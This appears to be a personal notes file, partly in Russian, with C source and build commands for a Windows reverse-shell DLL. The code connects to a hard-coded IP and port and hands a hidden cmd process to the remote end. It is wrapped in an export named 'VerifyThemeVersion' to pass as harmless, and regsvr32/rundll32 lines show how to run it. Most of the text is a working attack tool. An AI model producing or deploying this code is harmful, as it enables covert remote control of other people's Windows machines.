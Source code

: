 # c-c-
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

Cоздание dll


sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

----------------------
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void VerifyThemeVersion() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------


# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs
